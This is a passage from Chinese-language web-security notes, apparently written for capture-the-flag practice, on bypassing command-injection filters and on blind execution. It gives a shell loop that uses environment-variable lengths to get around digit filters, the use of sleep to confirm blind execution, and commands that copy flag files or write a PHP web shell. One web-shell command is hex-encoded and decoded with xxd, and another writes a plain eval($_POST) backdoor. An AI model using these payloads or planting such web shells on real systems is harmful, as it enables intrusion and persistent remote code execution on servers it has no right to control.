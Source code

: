 假如数字被过滤，我们还可以利用环境变量的长度来进一步绕过过滤

```text
for i in `env`; do echo -n "${i%=*} lenth is
";echo ${i#*=}|awk '{print length($0)}'; done |grep 5 
```

![img](PictureFile/【Web】TOP漏洞.assets/v2-8b7cef28020af52f24ed8f3f7f8a6228_720w.webp)





![img](PictureFile/【Web】TOP漏洞.assets/v2-65410c0ccf090cb4b8bba2841fe43946_720w.png)



#### 10.无回显

**一、Shell_exec等无回显函数**

**方法一、**

1、判断是否执行成功我们可以用sleep()

eg：ls;sleep(5);

2、用压缩、复制、写shell等方法对其进行绕过（此处要注意权限，看是否有写的权限）

```text
copy flag 1.txt
  mv flag 1.txt
  cat flag > 1.txt
  tar zcvf flag.tar.gz flag
  echo 3c3f706870206576616c28245f504f53545b3132335d293b203f3e|xxd -r -ps > webshell.php
  echo "<?php @eval($_POST['suifeng']); ?>" > webshell.php
```

利用上述操作产生新的文件，然后我们在对新的文件进行访问
